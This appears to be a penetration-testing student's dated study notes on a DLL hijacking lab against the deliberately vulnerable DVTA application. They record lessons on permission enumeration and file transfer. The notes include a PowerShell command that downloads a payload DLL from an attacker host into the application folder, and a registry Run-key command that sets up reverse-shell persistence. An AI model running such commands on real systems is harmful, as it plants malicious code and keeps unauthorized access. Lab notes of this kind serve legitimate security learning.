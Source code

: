 
## 12/29/2022

### DLL Hijacking Lab

One thing I notice is that you need admin privs to run procmon. How would you do this exploit without admin privileges? Maybe if you own the vulnerable application on a personal computer, you could try to reproduce it there.

May seem trivial but I learned that you can't just copy paste .dll files using a text editor.... I created the payload dll on the Kali attacker box but, I wasn't able to set up a reverse tcp shell or ftp connection to the Windows box. So I tried that as a last resort. The only way to transfer the files was to host a webserver and on the designated host access the webserver.

Also trivial, but I **re-learned** painfully that you can access subdirectories even if the parent directory is blocked from you...
During my enumeration I ignored Users/Admin/Desktop/DVTA..* because I could not even look inside Users/Admin/ from the file explorer. This set me back about 45 minutes of attempting to find Modification privileges in 20 system folders. Next time just use `icacls` on every directory, don't use the file explorer.

Internet Explorer was hardened, even adding my attacker box to the trusted sites, and trusted intranet  in the IE settings did not let me bypass the content blockers. Had to use 

(Powershell):
`iwr -UseBasicParsing -Uri http://IP/Dwrite.dll -OutFile C:\Users\Administrator\Desktop\dvta\bin\Release\Dwrite.dll`

Not sure what I would have done if that did not work as there were no other webbrowsers or connections from the attacker box to the windows box. 
## 12/28/2022

### DLL Hijacking

A.k.a DLL Preloading or Insecure Library Loading

Can I create some sort of mnemonic device to remember this? 

![image](https://user-images.githubusercontent.com/1501624/209873963-f9e50eb6-d7b0-417f-aa0a-4436a2c55203.png)

Also Linux isn't covered in this, but linux shared object hijacking is a thing as well. Something to pay attention to.


msg

### Manually setting up persistence

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d "<Path to reverse shell>" -v <nameOfRegistryValue>

## 12/27/2022

## Post Exploitation: Persistence
